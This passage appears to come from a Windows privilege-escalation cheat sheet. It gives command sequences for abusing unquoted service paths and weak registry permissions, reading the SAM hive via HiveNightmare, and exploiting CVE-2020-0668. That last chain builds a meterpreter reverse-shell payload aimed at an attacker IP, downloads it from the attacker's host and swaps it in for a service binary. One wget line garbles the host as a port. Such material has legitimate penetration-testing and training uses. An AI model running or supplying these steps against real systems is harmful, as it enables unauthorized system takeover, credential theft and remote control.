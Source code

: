 #### Unquoted Service Path
```cmd
# Step 1: Find unquoted service paths
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """"

# Step 2: Check if we can write to path
# Example: C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
# Create: C:\Program.exe or C:\Program Files (x86)\System.exe
```

#### Registry ACL Abuse
```cmd
# Step 1: Check registry permissions
accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services

# Step 2: Modify ImagePath
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> -Name "ImagePath" -Value "C:\path\to\malicious.exe"
```

#### Modifiable Registry Autorun Binary
````
# Check Startup Programs
> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
````

### Kernel Exploits

#### CVE-2021-36934 (HiveNightmare/SeriousSam)
```cmd
# Step 1: Check permissions on SAM file
icacls c:\Windows\System32\config\SAM

# Step 2: Perform attack
.\HiveNightmare.exe
```

#### CVE-2020-0668
```cmd
# Step 1: Check current privileges
whoami /priv

# Step 2: Generate malicious binary
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<Attacker_IP> LPORT=<Port> -f exe > maintenanceservice.exe

# Step 3: Downloading the Malicious Binary (Twice)
wget http://<Our_IP>:8080/maintenanceservice.exe -O maintenanceservice.exe
wget http://<Our_Port>:8080/maintenanceservice.exe -O maintenanceservice2.exe

# Step 4: Run exploit
CVE-2020-0668.exe C:\Users\<user>\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Step 5: Replace file and start service
copy /Y maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
net start MozillaMaintenance
```
